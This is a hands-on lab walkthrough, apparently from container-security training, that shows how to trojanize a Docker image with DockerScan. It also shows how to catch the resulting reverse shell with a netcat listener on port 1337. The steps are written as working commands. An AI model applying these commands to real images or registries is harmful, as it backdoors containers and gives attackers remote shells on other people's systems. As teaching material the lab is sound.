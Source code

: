 # Trojanized Docker Images - DockerScan
> A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```


* Step 3: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 4: Trojanize the saved docker to create a `.tar` file

>> Note: `$(serverip)` will automatically takes your server ip. 

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

* Step 5: Run `netcat` command 

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
nc -v -k -l $(serverip) 1337
```

* Step 6: Switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 7: Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

Step 8: When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

* Step 9: Switch to the right panel using `ctrl + b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

```commandline
ls
```


### Teardown:

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

* Step 14: Remove Trojanized container
```commandline
docker rmi abhaybhargav/vul_flask
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
